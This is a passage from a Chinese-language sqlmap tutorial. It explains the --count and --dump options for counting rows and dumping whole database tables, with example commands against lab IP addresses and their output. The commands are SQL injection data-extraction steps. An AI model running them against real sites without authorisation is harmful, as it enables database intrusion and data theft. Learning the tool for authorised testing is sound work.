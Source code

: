 Database: testdb
Table: users
[3 columns]
+---------+---------------+
| Column  | Type  |
+---------+---------------+
| id  | int(11)   |
| name| varchar(500)  |
| surname | varchar(1000) |
+---------+---------------+
[...]

获取表中数据个数

参数：–count

有时候用户只想获取表中的数据个数而不是具体的内容，那么就可以使用这个参数。

列举一个Microsoft SQL Server例子：

$ python sqlmap.py -u "http://192.168.21.129/sqlmap/mssql/iis/get_int.asp?id=1" --count -D testdb
[...]
Database: testdb
+----------------+---------+
| Table  | Entries |
+----------------+---------+
| dbo.users  | 4   |
| dbo.users_blob | 2   |
+----------------+---------+

获取整个表的数据

参数：–dump,-C,-T,-D,–start,–stop,–first,–last

如果当前管理员有权限读取数据库其中的一个表的话，那么就能获取真个表的所有内容。

使用-D,-T参数指定想要获取哪个库的哪个表，不使用-D参数时，默认使用当前库。

列举一个Firebird的例子：

$ python sqlmap.py -u "http://192.168.136.131/sqlmap/firebird/get_int.php?id=1" --dump -T users
[...]
Database: Firebird_masterdb
Table: USERS
[4 entries]
+----+--------+------------+
| ID | NAME   | SURNAME|
+----+--------+------------+
| 1  | luther | blisset|
| 2  | fluffy | bunny  |
| 3  | wu | ming   |
| 4  | NULL   | nameisnull |
+----+--------+------------+
